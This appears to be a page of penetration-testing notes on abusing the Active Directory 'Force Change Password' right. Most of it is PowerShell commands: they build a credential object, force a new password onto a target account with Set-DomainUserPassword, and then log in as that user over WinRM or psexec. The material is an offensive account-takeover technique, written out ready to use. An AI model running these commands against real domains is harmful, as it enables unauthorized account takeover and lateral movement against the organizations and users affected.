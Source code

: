 # Force Change Password

If we have the Force Change password privilege over a user, we can do exactly that. We can change the password of the user and then later run commands as that user.&#x20;

![](<../../../.gitbook/assets/image (10).png>)

#### Provided my password first <a href="#provided-my-password-first" id="provided-my-password-first"></a>

`$SecPassword = ConvertTo-SecureString '<our-users-password>' -AsPlainText -Force`

#### Then Our creds <a href="#then-our-creds" id="then-our-creds"></a>

`$Cred = New-Object System.Management.Automation.PSCredential('<domain.name>\<our current user>', $SecPassword)`

Then  we specify the password we want to force on our target user&#x20;

$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Then finally&#x20;

```
Set-DomainUserPassword -Identity <user-that-wecan-changepassword> -AccountPassword $UserPassword -Credential $Cred
```

We can log in via winRM, psexec, and see what privileges the user had.&#x20;
